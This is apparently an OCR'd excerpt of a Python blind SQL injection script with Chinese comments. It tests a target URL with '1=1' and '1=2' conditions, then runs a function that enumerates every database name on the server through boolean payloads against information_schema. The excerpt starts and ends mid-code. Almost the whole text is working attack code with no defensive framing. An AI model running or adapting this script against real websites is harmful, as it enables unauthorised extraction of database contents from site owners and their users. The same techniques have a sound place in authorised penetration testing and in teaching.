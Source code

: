 ```python
            resp = requests.get(url[1]+"1=1"+url[2])
            return resp
        except Exception as e:
            print(e)
            return None
    def TestConnFail():
        try:
            resp = requests.get(url[1]+"1=2"+url[2])
            return resp
        except Exception as e:
            print(e)
            return None

    RespSucc = TestConnSucc()
    RespFail = TestConnFail()

    if RespFail is None or RespSucc is None:
        print("不能建立与url的连接！")
        flags[0] = False
    else:
        flags[0] = True

    if SuccessKey in RespSucc.text:
        print("成功条件测试成功")
        flags[1] = True

    if SuccessKey not in RespFail.text:
        print("失败条件测试成功")
        flags[2] = True
    else:
        print("失败和成功判断是一样的！请修改识别的关键字")
        print(SuccessKey)

    return flags[0] and flags[1] and flags[2]

#测试payload使得返回的值是真是假
def TestPayload(payload):
    test_url = (url[1]+payload+url[2])
    resp = requests.get(test_url)
    if SuccessKey in resp.text:
        return True
    else:
        return False
#获取所有数据库
def getDatabases(maxlen=30):
    global charset
    get_len_payload = ("length(select group_concat(schema_name) from information_schema.schemata)=")
    get_name_payload = ("left((select group_concat(schema_name) from information_schema.schemata),$)=")
    length = 1
    while length < maxlen:
        if TestPayload(get_len_payload+str(length)) is True:
            break
        else:
            length += 1
    if length == maxlen:
        print("数据库总名称太长，或者程序出现错误了。")
    print("所有数据库名和逗号的总长度："+str(length))

    name = ""
    payl = get_name_payload.split("$")
    for i in range(1,length+1):
```